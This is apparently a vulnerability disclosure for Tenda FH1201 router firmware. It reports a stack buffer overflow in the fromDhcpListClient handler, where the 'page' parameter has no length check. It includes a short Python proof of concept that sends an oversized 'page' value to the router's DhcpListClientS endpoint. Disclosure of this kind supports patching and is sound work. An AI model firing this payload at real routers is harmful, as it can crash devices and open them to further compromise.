


## fromDhcpListClient-2

Tenda [FH1201V1.0BR_V1.2.0.14(408)_EN](https://www.tendacn.com/download/detail-3322.html) has a stackoverflow vulnerability。

### Description

In function `fromDhcpListClient` it reads user input `page` without any length check, which may lead to stack-based buffer v7 overflow.




### PoC

```python
import requests

IP = "192.168.85.143"
url = f"http://{IP}/goform/DhcpListClientS"

data = {
    "LISTEN": 0,
    "page": b"a" * 0x1000,
}

response = requests.post(url=url, data=data)
print(response.text)
```

